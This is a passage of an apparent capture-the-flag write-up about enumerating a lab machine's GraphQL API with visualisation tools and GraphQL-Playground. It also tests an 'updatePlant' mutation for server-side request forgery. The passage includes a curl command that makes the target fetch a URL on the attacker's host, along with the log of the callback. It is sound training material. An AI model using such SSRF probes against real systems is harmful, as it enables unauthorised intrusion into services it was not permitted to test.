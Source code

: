 It’s multiple lines and creates a mess, but it will run. The resulting data is also huge, so I’m using `jq` to print it on a single line to more easily copy it. The result is large, but manageable:

[![image-20210525174038880](https://0xdfimages.gitlab.io/img/image-20210525174038880.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210525174038880.png)

I’ll paste that all into the textarea, and click Display:

![image-20210525174110193](https://0xdfimages.gitlab.io/img/image-20210525174110193.png)

This doesn’t show mutations, but it does show a very nice relationship between the elements.

#### GraphQL-Playground

Another cool tool to look at it [GraphQL-Playground](https://github.com/graphql/graphql-playground). There’s a Deb package in the latest release link, which I’ll download and install with `sudo dpkg -i graphql-playground-electron_1.8.10_amd64.deb`. On opening it, it asks me to create a workspace:

![image-20210527162525418](https://0xdfimages.gitlab.io/img/image-20210527162525418.png)

I’ll give it a url endpoint of `http://127.0.0.1:8888/api/graphql` and click open. There’s an IDE here I can use to run queries, but the DOCS button on the right is what I’m really interested in. Clicking it will bring out the queries and mutations in the DB, and clicking on one of those will show details:

![image-20210527163023098](https://0xdfimages.gitlab.io/img/image-20210527163023098.png)

### SSRF

I’m really interested in the `updatePlant` mutation because it takes a URL. That implies that it will visit that url to get some additional data. If I can make that go other places, I could have a server-side request forgery (SSRF) vulnerability.

I’ll craft a query to call the mutation giving it a `sourceURL` of my VM. The query instantly returns with data that seems to indicate failure:

```

oxdf@parrot$ curl -d '{ "query": "mutation{updatePlant(plantId:1, version: 223.0, sourceURL: \"http://10.10.14.15/ssrf-test\")}" }' -X POST http://127.0.0.1:8888/api/graphql -H 'Content-Type: application/json' -s | jq -c .
{"data":{"updatePlant":false}}

```

At my Python webserver, there’s a request:

```
10.10.10.217 - - [25/May/2021 17:42:08] code 404, message File not found
10.10.10.217 - - [25/May/2021 17:42:08] "GET /ssrf-test HTTP/1.1" 404 -

```

It seems like the update failed because the server returned 404, which makes sense.

### GenericPotato
